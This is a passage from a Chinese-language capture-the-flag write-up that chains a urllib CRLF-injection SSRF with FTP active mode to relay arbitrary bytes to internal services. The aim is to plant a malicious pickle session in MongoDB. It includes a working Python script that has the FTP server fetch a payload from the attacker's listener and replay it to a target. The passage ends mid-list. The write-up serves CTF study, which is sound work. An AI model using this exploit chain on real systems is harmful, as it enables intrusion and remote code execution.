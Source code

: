 此时我们发现内网有`172.20.0.0/29`共五台服务器（1为宿主机，不计）  
mysql估计是出题人想用来存payload审payload的，没啥用，hint也说了不要管redis，重点在于mongodb中存储了session对象。  
题目用到了`flask_session`，而`flask_session`使用的serializer默认是pickle（貌似现在也不支持改），也就是说只要能将恶意pickle数据塞到mongodb里就可以了

经尝试，利用`ftp://fan:root@172.20.0.2/`这样的url可以列出ftp服务器内的文件，下载`ftp-server.py`  
首先看权限：`authorizer.add_user("fan", "root", ".", perm="elrafmwMT")`，有权限写  

urllib这个ssrf还能怎么样进一步利用呢？略作百(gu)度(ge)可以找到[这个CVE](https://bugs.python.org/issue36276)  
不出意料，urllib在题目环境的版本中存在CRLF注入，我们可以在url的任意一个part注入换行符。这样，我们就可以完整地控制ftp客户端的行为了。

参考[这篇文章](http://blog.zeddyu.info/2020/04/20/Plaid-CTF-2020-Web-1/)，我们发现ftp竟然还有主动模式这一说。  
plaid里的这道题利用ftp主动模式可以将ftp服务器内可控的二进制文件发送到任意ip的任意端口，对这道题来说问题就在于如何控制ftp服务器里的文件。  
经尝试（其实也能搜到），主动模式不仅可以用于文件的下载，还可以用于文件的上传。也就是说只要指示ftp服务器到我们自己的服务器来下载文件就好了。  

此时，我们成功地将CRLF注入型SSRF提升为了完整的无状态二进制流SSRF（自己瞎起的名字），类似gopher

```python
bind = '自己的IP:端口'
targ = 'SSRF的目标IP:端口'

def get_port_cmd(host):
    host, port = host.split(':')
    port = int(port)
    return 'PORT ' + ','.join(host.split('.') + [str(port // 256), str(port - port // 256 * 256)])

def inject(cmd):
    cmd = '\r\n'.join(cmd)
    return ssrf(f'''ftp://fan:root{cmd}@{ftpd}/''')

def sendfile(file):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('0.0.0.0', int(bind.split(':')[1])))
    sock.listen(1)
    (client, address) = sock.accept()
    print('accepted', address)
    client.send(file)
    print('sent')
    client.close()

thread = threading.Thread(target=sendfile, args=(request,))
thread.start()
inject(['TYPE I', get_port_cmd(bind), 'STOR frankli'])
thread.join()
print('replaying')
inject(['TYPE I', get_port_cmd(targ), 'RETR frankli'])
```

接下来的任务就是向mongodb发起一个update请求，修改数据库里的session序列化数据。如何构造这个数据包呢，我赛后问了出题人和别的队伍的同学，基本有下面几种：

1. 分析mongodb数据包，并手动构造（肝败吓疯）
2. 查[文档](https://docs.mongodb.com/manual/reference/mongodb-wire-protocol/)，手动构造
3. 抓包重放（出题人）
4. 我的办法
